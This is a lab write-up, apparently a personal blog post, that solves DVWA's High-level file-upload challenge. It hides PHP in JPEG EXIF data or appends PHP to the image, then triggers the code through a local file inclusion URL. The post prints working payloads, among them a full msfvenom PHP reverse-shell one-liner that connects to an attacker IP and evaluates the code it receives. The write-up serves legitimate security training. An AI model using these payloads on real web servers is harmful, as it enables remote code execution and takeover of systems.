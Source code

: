 ```yaml
---
layout: post
title:  "DVWA File Upload"
subtitle: "Damn Vulnerable Web Application"
date:   2017-03-05 13:00:00 -0500
author: "coastal"
header-img: "images/site-resources/dvwa-header.jpg"
---
```

I haven't been able to make much progress with these as I have been traveling for the past week. However I found a little time to finish the File Upload Vulnerability challenge. The "Low" challenge simply allowed us to upload our webshell and the "Medium" made us change the mime-type to "image/jpeg" in the ```POST``` request to the server with our webshell php file unobfuscated as the upload. Let's dive into the "High" challenge, was it was a little more involved and a lot more interesting.

# Security: High
First, let's take a look at the challenge source to see what changes have been made vs the earlier challenges:

```
// Where are we going to be writing to?
$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

// File information
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

// Is it an image?
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
    ( $uploaded_size < 100000 ) &&
    getimagesize( $uploaded_tmp ) ) { 
```

Aha, so we have some server-side checking to ensure that the uploaded file is indeed an image. This time it is more involved that just checking the file-extension, and the php function ```getimagesize``` is invoked. Looking up the function, it doesn't seem like there are any exploits to pass non-image files through it (barring a 0-day which I most certainly don't have).

However, while researching bypass techniques I discovered a technique to hide php code in the EXIF data of the image file. When the image is loaded by the page, the php tags located in the headers are interpreted as php code and run by the server. So by crafting a script, we can test our RCE by implanting it in a document with random data to emulate headers from a JPEG file.

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/php-include-jpeg-php.jpg">

Here we insert the ```phpinfo();``` pop into the random data and upload it to the server. Then when we test accession  the file (interpreting it as php):

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/php-include-phpinfo-pop.jpg">

We see that the php code is parsed from the random data and executed by the interpreter. Now let's try to run the exploit remotely on the webserver by embedding the ```phpinfo();``` pop into the ```DocumentName``` header of a random JPEG image.

```
exiftool -DocumentName="<?php phpinfo(); die(); ?>" sea.jpeg
```

```exiftool``` is a great command-line tool for editing the EXIF tag metadata for image files. We have modified the ```DocumentName``` header value to hold our script. Let's run it locally from the terminal to make sure that it runs:

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/exif-implant.jpg">

Ah, unfortunately for us, it looks like a parsing error has arisen far into the JPEG's byte-data. It looks like the ```die();``` call didn't actually stop the interpreter from searching through the rest of the file for php code. Looking a little further into this, there appears to be a function made mainly for debugging called ```__halt_compiler();```. This method supposedly stops the interpreter from compiling any of the code following the method call. Let's see if that can remedy our parsing issue.

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/halt-compiler-vs-die.jpg">

Alright it looks like that did indeed fix the issue. Next we upload the file to the server. As the image is valid and can pass through ```getimagesize()``` without issue, our script is now sitting on the server waiting to be executed. Next, we set the security level back to low and execute our Local File Inclusion vulnerability at ```192.168.56.101/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/sea-exif.jpeg```.

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/exif-phpinfo-pop.jpg">

Wicked, we've got remote code execution on the server! Now let's try to throw a shell into the EXIF header and fully own the system.

```
exiftools -DocumentName='/*<?php /**/ error_reporting(0); $ip = "192.168.56.102"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();'
```

I grabbed this payload from the ```msfvenom``` reverse_tcp payload (modifying the ip and port values to match my attacking box). Here we manually throw it in the EXIF data and upload the backdoored image to the webserver. When we access it with the LFI vulnerability:

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/exif-reverse-shell-success.jpg">

Boom, we have a meterpreter shell!

## Alternate Approach: Shell Append

Apparently, while not in use here, there are some upload sanitation techniques that include scanning the EXIF headers for php shells. Maybe we can use another technique that could potentially bypass this sanitation approach as well:

```
echo "<?php phpinfo(); ?>" >> sea.jpeg
```

This concatenation to the end of the image file is actually the standard way that ```msfvenom``` packages tcp reverse shells with image files.

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/phpinfo-append.jpg">

When we upload our modified jpeg and access it with our LFI vulnerability:

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/phpinfo-pop.jpg">

Awesome! We are able to get the phpinfo to pop. Looks like we have RCE! Now let's leverage this to get a remote shell on the webserver. Metasploit makes the packaging a breeze, but we could also just use our ```cat``` call technique to throw our old payload onto the end of the image. If we were to do that we could also get rid of the ```__halt_compiler();``` call as we will be at the end of the file and don't need to worry about php parsing errors with the remaining bytes in the image file. 

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/msfvenom-jpg-reverse-tcp.jpg">

Next let's set up the handler to catch the reverse shell from the webserver

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/reverse-shell-handler.jpg">

And finally, let's use the file-inclusion vulnerability on the "Low" security setting to make sure that our file is passed to ```include()``` and our webshell is fired off by heading to 

```
http://192.168.56.101/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/sea-exif.jpeg
```

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/reverse-shell-catch.jpg">

And we got it! For the next steps, we could try to use privilege escalation to get root, but for now this works as a PoC. I know I'm not too familiar with the meterpreter shell commands...something I need to work on in the near future. 
